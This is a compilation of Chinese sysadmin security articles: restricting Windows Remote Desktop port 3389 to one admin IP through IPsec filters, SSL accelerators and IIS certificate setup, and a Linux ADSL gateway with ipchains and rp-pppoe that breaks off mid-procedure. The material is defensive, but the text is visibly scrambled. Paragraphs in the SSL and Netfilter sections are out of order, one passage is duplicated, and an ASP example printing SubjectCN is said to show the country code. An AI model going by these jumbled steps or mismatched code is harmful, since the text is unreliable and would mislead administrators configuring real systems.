

选择“创建 IP 安全策略”，会弹出向导窗口，单击下一步。在弹出的窗口中输入此策略的名称，比如这里我们输入“3389 过滤”，再单击下一步，以后全部默认下一步，其中有一个警告，单击“是”即可，这样就完成新策略的添加。如图 2 所示：



点击确定后，回到图 1 界面，选择“管理 IP 筛选器操作”，弹出如图 3 所示窗口：



我们先要建立一个筛选器。单击“添加”，弹出窗口，在筛选器名称里填入“3389 筛选器 1”，再单击旁边的“添加”，会弹出向导窗口，单击“下一步”，会出现源地址选项（你可以按照自己的需要选择），在这里我们选择“任何 IP 地址”，然后单击下一步，在目的地址中选择“我的 IP 地址”，再单击下一步，选择“IP 协议”，这里我们选择“TCP”，单击下一步，会出现端口选择，如图 4 所示：



我们设置“从任何端口到本机的 3389 端口”，单击“下一步”就完成了筛选器的建立。如图 5 所示：



接着回到图 3 界面，单击“管理筛选器操作”页栏，单击“添加”，会弹出筛选器操作向导，单击“下一步”，取名为“阻止 3389”，单击下一步，在选择操作页面中选择“阻止”，单击“下一步”就完成了筛选器操作的建立。如图 6 所示：



图 6

好了！我们建立了筛选器和筛选器操作，现在就来建立 IP 安全规则。在图 1 界面中，双击我们刚刚建立的“3389 过滤”策略，弹出策略属性窗口，然后单击“添加”，弹出向导，一直单击下一步，其中一个选择“是”，直到如图 7 所示界面：



图 7

这时，我们要选择刚才建立的“3389 筛选器 1”，然后再单击“下一步”。（大家注意到旁边的“添加”、“编辑”等按钮没有，其实我们可以在此向导中就一次完成建立筛选器及筛选器操作等工作。）如图 8 所示：



图 8

我们选择建立的“阻止 3389”的操作。单击“下一步”就完成了安全规则的建立。这样我们已经有了一个基于在 3389 端口阻止所有 IP 连接的安全策略。回到图 1 的界面上，在“3389 过滤”策略上单击右键，再单击“指派”。这样，系统就开始应用安全策略，所有连接 3389 的 TCP 请求都将被阻止。

现在，所有的连接都被阻止了，那管理员如何连接呢？别急，我们再来建立一个允许管理员登录的策略。

我们回到图 3 的界面，重复建立筛选器的步骤，建立一个名为“3389 筛选器 2”的筛选器，其余设置和“3389 筛选器 1”的一样，只是在选择源地址时要选择“一个特定的 IP 地址”。比如，我的管理员工作站 IP 是 192.168.0.2，如图 9 所示：



图 9

回到图 3 界面，再重复建立筛选器操作的步骤，建立一个名为“允许 3389”的操作，和上面不同的是在选择动作时使用“许可”。再重复建立规则的步骤，用“3389 筛选器 2”和“允许 3389”建立一个新的规则，完成后在策略“3389 过滤”属性中显示如图 10 所示：



图 10

至此，我们已经完成了在 3389 端口上的 IP 策略。此时，只有来自 192.168.0.2 的 IP 地址将被许可连接，其他的 IP 地址通信都将被阻塞（IP 策略需要指派后才生效，不需要重启，在更改设置时也不用停止后再指派。指派相应的 IP 策略后，此 IP 策略名上有个小绿点）。

### 关于动态 IP 连接的问题

对于拨号上网或动态 IP 地址的管理员，我想应该可以在允许连接源地址中选择一个特定的子网来实现。我没有环境，所以测试不了，只是猜测，见谅！

另外，不妨可以尝试使用一下第三方工具，如 WinRoute，设置它关掉在 3389 的连接；当管理员需要连接 3389 时，使用本地 WinRoute 远程控制服务器 WinRoute 打开对自己当前 IP 的允许连接，这时就可以上 3389 了。管理完毕后，再将 3389 关掉，也可以从一定程度上加强系统安全。用这个思路，我们可以对其它的一些需要安全防范的端口进行保护，从而最大程度地保护我们的系统不让入侵者进入。你可以结合 Win2000 的帮助更好地学习。

此文只是提供一个思路，仅仅适合与我同样菜的朋友，我还不理解系统 IP 策略，实现的办法很笨，理解也有错误，还请高手指教！

## 用 SSL 安全协议认证 WEB 服务器的安全性

Phoenix

现今 SSL 安全协议广泛地用在 Internet 和 Intranet 的服务器产品和客户端产品中，用于安全地传送数据，集中到每个 Web 服务器和浏览器中，从而保证用户可以与 Web 站点安全交流。本文将详细介绍 SSL 安全协议及在 Web 服务器中安全方面的应用。

### 一、SSL 安全协议在 WEB 服务器中的应用

- 1、我们为提供具有真正安全连接的高速安全套接层（SSL）交易，可以将 PCI 卡形式的 SSL 卸载（offloading）设备直接安装到 Web 服务器上，这种做法的好处是：
  - （1）从客户机到安全 Web 服务器的数据安全性；
  - （2）由于卸载工具执行所有 SSL 处理过程并完成 TCP/IP 协商，因此大大提高了吞吐量；
  - （3）简化了密钥的管理和维护。

安全性加大。在实现面向电子商务和其它安全 Web 站点的服务器增加 SSL 加速和卸载设备的结果是提高了交易处理速度。但是由于设备是作为应用被安装在网络上的，因此设备与安全服务器之间的数据是未加密的。将 SSL 卸载设备作为 PCI 扩展卡直接安装在安全服务器上，保证了从浏览器到服务器的连接安全性。

SSL 可以用于在线交易时保护像信用卡号以及股票交易明细这类敏感信息。受 SSL 保护的网页具有“https”前缀，而非标准的“http”前缀。

- 2、新型专用网络设备 SSL 加速器可以使 Web 站点通过在优化的硬件和软件中进行所有的 SSL 处理来满足性能和安全性的需要。

当具有 SSL 功能的浏览器（Navigator、IE）与 Web 服务器（Apache、IIS）通信时，它们利用数字证书确认对方的身份。数字证书是由可信赖的第三方发放的，并被用于生成公共密钥。

当最初的认证完成后，浏览器向服务器发送 48 字节利用服务器公共密钥加密的主密钥；然后 Web 服务器利用自己的私有密钥解密这个主密钥。最后，浏览器和服务器在会话过程中用来加解密的对称密钥组合就生成了。加密算法可以为每次会话对话配置或协商。广泛使用的加密标准为“数据加密标准”（DES）和 RC4。

一旦完成上述启动过程，安全通道就建立了，保密的数据传输就可以开始。尽管初始认证和密钥生成对于用户是透明的，但对 Web 服务器来说，它们远非透明。由于必须为每次用户会话执行启动过程，因而给服务器 CPU 造成了沉重负担并产生严重的性能瓶颈。据测试，当处理安全的 SSL 会话时，标准的 Web 服务器只能处理 1% 到 10% 的正常负载。

### 二、SSL 对性能的影响

- 1、密码在加解密数据时，使用两种类型的密钥。私有密钥被发给各实体并且永远不向外透露，公共密钥可以任意分发。这两种密钥对于认证过程是必不可少的。使用公钥加密的数据不能使用同一个密钥进行解密，必须使用私有密钥进行解密。

SSL 使用复杂的数学公式进行数据加密和解密，这些公式的复杂性根据密码的强度不同而不同。高强度的计算会使多数服务器停顿，导致性能下降。多数 Web 服务器在执行 SSL 相关任务时，吞吐量会显著下降，性能比在只执行 HTTP 1.0 连接时的速度慢 50 多倍。而且由于 SSL 复杂的认证方案和加／解密算法，SSL 需要大量地消耗 CPU 资源，从而造成 Web 服务器性能很大的下降。它所造成的服务器瓶颈使 Web 站点的速度慢如蜗牛爬行，这无疑会失去在线客户。

为解决这种性能上的损失，我们可以通过安装 SSL 加速器和卸载器来减少 SSL 交易中的时延。加速器通过执行一部分 SSL 处理任务来提高交易速度，同时依靠安全 Web 服务器软件完成其余的任务。卸载器承担所有 SSL 处理任务并且不需要安全 Web 服务器软件，从而使 Web 服务器可以以同样的高速提供安全和非安全的服务。由于密钥管理和维护过程不依赖对应用软件的手工配置，因此使用卸载器效率会更高一些。

- 2、多数这类设备作为网络应用被安装在机架式或台式底座网络设备上，由于它们为整个网络提供加解密服务，因此设备与 Web 服务器之间的数据是未加密的。通过直接在服务器上安装 SSL 卸载器，可以解决速度和安全性问题。加密的数据由客户机经过 Internet 和网络直接传送到一台服务器上。安装在这台服务器上的卸载器对数据进行解密并将其沿 PCI 总线直接传送到处理器。这样做的结果是宿主服务器在保证客户机与服务器之间传输数据安全性的同时，以非安全交易服务同样的速度提供了安全交易服务。

- 3、SSL 加速设备的出现就是为了解决对 CPU 资源过量需求的 SSL 协议所造成的性能问题，这类设备是一些用以在不增加 Web 服务器负担的情况下处理 SSL 任务的特殊网络硬件。通过优化硬件和软件，专用 SSL 加速器处理 SSL 会话的速度约为标准 Web 服务器的 10 到 40 倍。此外，SSL 加速器解放了服务器资源，使这些资源可以真正用于处理应用逻辑和数据库查询，从而加快了整个站点的速度。

- 4、将 SSL 设备集成到网络中很简单，第 4 层到第 7 层交换机或负载均衡设备被配置为将所有的 443 端口（HTTPS）请求改向传送到 SSL 设备。这时，这台设备承担所有的 SSL 处理任务，因而立即解除了 Web 服务器的负载。随着安全传输流容量的增加，在不增加不必要管理负担的条件下，可以再部署其它 SSL 设备。

最近，SSL 加速器功能已经被集成到像服务器端缓存（即所谓的“服务器加速”）这类 Web 内容提交产品中了。这种做法的主要好处是，服务器加速器进行 SSL 处理和对象提交。

配置 SSL 功能的服务器加速器使广泛地将 SSL 用于 Web 基础设施上的安全内容交换成为可能，安全网页将快速地得到提交，安全交易也将迅速完成。

### 三、如何实现 WEB 和 Internet 安全浏览

- 1、我们在安装好 Certificate Server 后，给自己的 Web Server 发一张证书，安全站点将建立起来。在 IIS 管理器中打开安全通道（先不要接受客户证书验证，如果没有浏览器证书的话），把 http 改为 https 后访问站点，系统提示服务器证书有问题，这时要记得在浏览器中安装根证书。要不就是服务器证书过期了。如果没有在浏览器中安装根证书，或要安装它，同时让别人通过 Internet 访问站点时如果没有安装根证书，就需要将根证书放在网上让别人下载。

用 IE 安装根证书很简单，浏览器提示用户打开或保存时选择打开，会看到根证书信息，然后按“安装证书”就可以了。但可能会发现 Netscape 无法安装根证书，（SSL 协议是由 Netscape 首先提出并实现的，Netscape 使用 MIME 类型 application/x-x509-ca-cert 来表示 CA 证书，IE 3.1 以后开始支持 SSL，起初 Windows 系统的数字证书文件（.crt 和 .cer）也采用相同的 MIME 类型，IE 5.0 以后 MIME 类型被改为 application/pkix-cert，这就造成 Netscape 安装根证书困难。）不过这个问题好解决，只要在 IIS 里新注册 application/x-x509-ca-cert 的 MIME 类型就可以了。刚发的证书浏览器有时也会显示证书过期，这是因为浏览器判断证书有效是从证书有效起始时间的后一天开始，此外数字证书中的日期大都是 GMT 时间而不是本地时间，所以通常将本机时间向后调整一天这个问题就能解决，所以证书过期不仅仅可能表示太晚也可能表示太早。

“允许私钥被导出”：它对于不固定地点上网的人比较有用。如果在一台机器上申请了证书，导出该证书和私钥并安装到其它机器上，就可以在其它机器上使用。“用户保护”会让浏览器在使用私钥时提示，这通常发生在加密和签名过程之前。证书安装过程通常都是自动的，安装完成后可以欣赏一下。在 IE 中打开 Internet 选项，选择“内容”一栏，点击“证书”按钮，在“个人”一栏内应该能看到客户证书。

- 2、一切都已经就绪，进入安全网页，在 IE 的状态栏里应该有一个小锁，双击这个小锁能看到站点证书信息，同时也能看到整个证书链。现在也许会问：“那么现在我怎么用 SSL 加密我的数据呢？”实际上现在浏览器和 Web 服务器之间交换的所有信息都已经被加密。SSL 是在网络层与会话层之间的协议，它在 TCP/IP 和 HTTP 之间增加了一个加密层，对于工作在 HTTP 协议以上的用户而言，加密是完全透明的，所以请忘记“用 SSL 加密”这句话，除非直接在 Socket 上开发，比如写个网络蚂蚁之类。

现在在 IIS 管理器中设置站点要求客户证书，然后访问站点，浏览器会弹出一个对话框，选择要使用的客户证书，然后就可以进去。那么怎么样利用 SSL 实现身份认证呢？首先可以在 IIS 管理器中启用客户证书映射，将客户证书映射到 NT 账号，可以映射某张证书，也可以映射所有根证书所签发的客户证书。如果在签发者列表中找不到根证书，需要运行 SSLCA.exe（IIS 4.0 以上），以后的事就属于 NT 管理员的范畴了。如果不想用 NT 的安全机制，就需要获取对方客户证书的信息，然后进行判断。通常客户证书的信息由 HTTPS_ 开头的服务器变量提供，如 Apache Server、Domino 等，可以查看文档或者写一个小的 CGI 程序列出所有的服务器变量。如果是 IIS 就更简单了，用 Request.ClientCertificate(Key[SubField]) 就可以访问想要的内容，如：

- 3、现在想用 SSL 实现更多的东西，不仅仅是加密，是申请浏览器（客户）证书的时候了。申请客户证书过程也不复杂，除了相同的名称、国家之类的还多了一个 Email 地址。如果用 IE 申请证书可能会有许多选项，其中有两个比较有意义：

> “允许私钥被导出”：它对于不固定地点上网的人比较有用。如果在一台机器上申请了证书，导出该证书和私钥并安装到其它机器上，就可以在其它机器上使用。

```asp
<%= Request.ClientCertificate("SubjectCN") %>
```

可显示客户证书的国家代码。具体参数请在 MSDN 搜索 ClientCertificate。

## Netfilter 解决 NAT 问题

紫天星

最近我们网站需要网络扩容，决定加装 ADSL 来实现网络提速，原计划通过一台安装了 Linux 的 PC 做 ADSL 虚拟拨号网关，通过 Ipchains 实现地址伪装，把主控路由的默认网关直接指向这台机器就可以实现网络间的互访。

```bash
ipchains -F
### 做地址伪装
ipchains -A forward -s 202.90.187.0/24 -j MASQ
```

这样之后就实现了到 Internet 的快速访问。可是这样之后，由于主控路由默认网关改变指向 202.90.187.1 后，使得我们网站变为不可访问！

最初，采用 Redhat 7.1 操作系统（这里假设主机双网卡可以正常使用，ELIXXA 口用于虚拟拨号，以太口 eth0 和本网段连接。推荐采用 3Com 系列的网卡，Redhat 能很快识别），由于其所带的 ADSL 拨号软件不能监测虚拟拨号的连接状态，于是采用有图形界面的 rp-pppoe 软件，采用的软件版本名为 rp-pppoe-3.2.tar.gz。把其拷贝到安装目录下，就可以完成安装。步骤如下：

由于网站中心路由的网关修改为指向这台 Linux 机器，当外网通过原来的 DDN 专线访问网站的时候，对服务器带来回应的数据包从默认网关反馈，由于 Ipchains 不支持 NAT 技术，导致响应数据包在 Linux 上丢失，于是网站变为不可访问。

```bash
mkdir /opt/adsl
cp rp-pppoe-3.2.tar.gz /opt/adsl
cd /opt/adsl
tar -zxvf rp-pppoe-3.2.tar.gz
cd rp-pppoe-3.2
./go
```

查询资料后，发现 Netfilter 框架结构可以实现 NAT 技术，内核为 2.4 的 Redhat 7.1 也支持 Iptables。默认支持 Ipchains，因此需要重新编译内核。步骤如下：

